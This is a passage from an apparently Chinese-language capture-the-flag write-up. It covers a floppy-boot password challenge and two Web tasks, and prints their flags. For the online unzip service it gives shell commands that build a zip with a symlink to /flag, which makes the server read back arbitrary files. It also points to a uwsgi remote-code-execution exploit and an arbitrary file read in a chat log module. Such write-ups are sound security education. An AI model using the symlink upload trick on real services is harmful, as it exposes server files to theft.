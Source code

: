 8-4 无限卡关

<img alt="8-5最终关" src="./assets/Untitled%2016.png" width="512">

8-5 最终关

在[http://lab.maxxsoft.net/lab/ctf/leafs/](http://lab.maxxsoft.net/lab/ctf/leafs/)上输入软盘启动打印的密码获得 flag：`flag{W4ke_up_fr0m_7h3_L0NG_dre@m}`.

# Web

## 在线解压网站

猜测可以通过符号链接泄露 flag.

```bash
ln -sf /flag 1.txt
zip -y payload.zip 1.txt
```

上传并下载`1.txt`获取到 flag：`flag{NEV3r_trUSt_Any_C0mpresSeD_File}`.

## 早期人类的聊天室

题目已经提示该 Web App 使用`uwsgi`. Google 搜索 uwsgi exploit 得到其版本 2 存在远程代码执行漏洞（[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)）.

从`log = open('media/{}'.format(logfile)).read()`知道 chatlog 模块可以任意读文件.
